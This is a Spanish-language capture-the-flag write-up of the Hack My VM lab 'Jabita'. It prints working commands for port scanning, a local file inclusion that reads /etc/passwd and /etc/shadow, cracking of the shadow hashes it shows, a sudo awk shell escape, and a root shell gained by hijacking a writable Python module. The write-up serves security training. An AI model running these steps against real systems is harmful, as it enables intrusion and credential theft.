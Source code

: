 ```yaml
---
layout: post
title: Jabita
date: 2022-11-27
categories: ["HMV", "Enumeration"]
thumbnail: "assets/images/Jabita.png"
---
```


# Jabita [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.115 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.115 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Una vez entramos en la página vemos un texto sin relevancia, como no vemos ningún hipervínculo ni comentarios en el código de la página pazaremos a `fuzzear` la página, para ello utilizaremos `WFuzz`, una herramienta hecha en `Python` que nos ayudará en la búsqueda de directorios.

```
wfuzz -u "http://192.168.1.115/FUZZ" -w directory-list-2.3-medium.txt --hc 404
```

Tras esperar unos segundos veremos un resultado, `building`. Si inspeccionamos la página veremos que ahora sí hay algo más, arriba vemos tres hipervínculos, los cuales tienen un parámetro que nos llama la atención, `page=`, vamos a ver si es vulnerable a `LFI`.

- `curl http://192.168.1.115/building/index.php?page=/etc/passwd`

```
[...]
root:x:0:0:root:/root:/bin/bash
[...]
jack:x:1001:1001::/home/jack:/bin/bash
jaba:x:1002:1002::/home/jaba:/bin/bash
```

Bien! Vemos que sí es vulnerable! Tras un intento fallido de listar la `id_rsa` de los usuarios `jack` y `jaba` por curiosidad probé con `/etc/shadow`, un archivo el cual (generalmente) está protegido, aunque no es el caso.

```
[...]
jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7:::
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7:::
```

Además el hash de `root` (el cual no es crackeable) vemos otros dos hashes, el de `jack` y el de `jaba` (tampoco es crackeable), por lo que vamos a copiarnos esa información y con `John` crackear la contraseña de `Jack`.

- `john hash.txt -w=/usr/share/wordlists/rockyou.txt`

Bien! `John` ha sido capaz de crackear al contraseña (`jack:joaninha`)!

### Subida de privilegios #1
Bien, ahora que ya estamos en la máquina por `SSH` tenemos que convertirnos en `jaba` para luego poder convertirnos en `root`, para ello comenzé por hacer `sudo -l`:

```
Matching Defaults entries for jack on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jack may run the following commands on jabita:
    (jaba : jaba) NOPASSWD: /usr/bin/awk
```

Como vemos `Jack` puede ejecutar `AWK` como el usuario `Jaba` sin proporcionar contraseña, para poder explotarlo nos vamos a [`GTFObins`](https://gtfobins.github.io/gtfobins/awk/#sudo), el cual nos dice cómo hacerlo.

- `sudo -u jaba awk 'BEGIN {system("/bin/sh")}'`

Estupendo! Ya estamos en la máquina como `Jaba`!

### Subida de privilegios #2
Bien, ahora que ya hemos escalado privilegios ya podemos pasar a ser `root`, para ello vuelvo a ejecutar `sudo -l`.

```
Matching Defaults entries for jaba on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never
 
User jaba may run the following commands on jabita:
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```

Como vemos podemos ejecutar con `Python` un `script` llamado `clean.py` como `root`. Si lo ejecutamos sólo nos saldrá un simple `Hello`. Por desgracia no podemos escribir en este archivo, pero vemos que está importando un módulo llamado `wild`, vamos a buscarlo:

- `find / -iname wild.py 2>/dev/null`

```
/usr/lib/python3.10/wild.py
```

Vemos que nos ha salido un resultado, si abrimos el archivo veremos lo siguiente:

```Python
def first():
    print("Hello")
```

Vemos que concuerda y además podemos escribir, por lo que podemos hacer que nos otorgue una Shell añadiendo lo siguiente:

```Python
def first():
    print("Hello")
import os
os.system("/bin/bash")
```

Bien! Tras volver a ejecutar el fichero como `root` hemos podido ganar la Shell! Qué fácil!
